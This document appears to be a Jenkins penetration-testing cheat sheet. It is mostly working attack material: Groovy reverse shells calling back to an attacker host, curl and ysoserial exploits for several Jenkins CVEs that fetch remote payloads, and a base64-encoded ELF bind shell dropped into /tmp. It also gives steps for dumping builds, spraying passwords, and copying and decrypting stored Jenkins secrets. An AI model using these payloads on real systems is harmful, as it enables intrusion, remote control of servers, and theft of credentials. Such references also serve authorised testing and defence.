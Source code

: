 # Jenkins

```text
# Tools
# dump_builds, offline_decryption & password_spraying
# https://github.com/gquere/pwn_jenkins
# https://github.com/Accenture/jenkins-attack-framework

# URL's to check
JENKINSIP/PROJECT//securityRealm/user/admin
JENKINSIP/jenkins/script

# Groovy RCE
def process = "cmd /c whoami".execute();println "${process.text}";

# Groovy RevShell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Common bugs

### Deserialization RCE in old Jenkins \(CVE-2015-8103, Jenkins 1.638 and older\)

Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload. Then RCE using [this script](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```

### Authentication/ACL bypass \(CVE-2018-1000861, Jenkins &lt;2.150.1\)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:

```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

### Metaprogramming RCE in Jenkins Plugins \(CVE-2019-1003000, CVE-2019-1003001, CVE-2019-1003002\)

Original RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html), full exploit [here](https://github.com/petercunha/jenkins-rce).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).

### CheckScript RCE in Jenkins \(CVE-2019-1003029, CVE-2019-1003030\)

Check if a Jenkins instance is vulnerable \(needs Overall/Read permissions\) with some Groovy:

```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

Execute arbitrary bash commands:

```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt".execute()}}'
```

If you don't immediately get a reverse shell you can debug by throwing an exception:

```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){def proc="id".execute();def os=new StringBuffer();proc.waitForProcessOutput(os, System.err);throw new Exception(os.toString())}}'
```

### Git plugin \(&lt;3.12.0\) RCE in Jenkins \(CVE-2019-10392\)

This one will only work is a user has the 'Jobs/Configure' rights in the security matrix, so it's very specific.

### Dumping builds to find cleartext secrets

Use [this script](https://github.com/gquere/pwn_jenkins/blob/master/dump_builds/jenkins_dump_builds.py) to dump build console outputs and build environment variables to hopefully find cleartext secrets.

```text
usage: jenkins_dump_builds.py [-h] [-u USER] [-p PASSWORD] [-o OUTPUT_DIR]
                              [-l] [-r] [-d] [-s] [-v]
                              url [url ...]

Dump all available info from Jenkins

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER
  -p PASSWORD, --password PASSWORD
  -o OUTPUT_DIR, --output-dir OUTPUT_DIR
  -l, --last            Dump only the last build of each job
  -r, --recover_from_failure
                        Recover from server failure, skip all existing
                        directories
  -d, --downgrade_ssl   Downgrade SSL to use RSA (for legacy)
  -s, --no_use_session  Don't reuse the HTTP session, but create a new one for
                        each request (for legacy)
  -v, --verbose         Debug mode
```

### Password spraying

Use [this python script](https://github.com/gquere/pwn_jenkins/blob/master/password_spraying/jenkins_password_spraying.py).

### Files to copy after compromising

These files are needed to decrypt Jenkins secrets:

* secrets/master.key
* secrets/hudson.util.Secret

Such secrets can usually be found in:

* credentials.xml
* jobs/.../build.xml

Here's a regexp to find them:

```bash
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
```

### Decrypt Jenkins secrets offline

Use [this script](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) to decrypt previously dumped secrets.

```text
Usage:
    jenkins_offline_decrypt.py <jenkins_base_path>
or:
    jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
or:
    jenkins_offline_decrypt.py -i <path> (interactive mode)
```

### Groovy Scripts

### Decrypt Jenkins secrets from Groovy

```java
println(hudson.util.Secret.decrypt("{...}"))
```

### Command execution from Groovy

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

For multiline shell commands, use the following shell syntax trick \(example includes bind shell\):

```java
def proc="sh -c \$@|sh . echo /bin/echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAzgAAAAAAAAAkAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdSxwQkAgD96UiJ5moQWmoxWA8FajJYDwVIMfZqK1gPBUiXagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU= | base64 -d > /tmp/65001".execute();
```

Automate it using [this script](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_admin_script.py).

### Reverse shell from Groovy

```java
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

I'll leave this reverse shell tip to recover a fully working PTY here in case anyone needs it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```

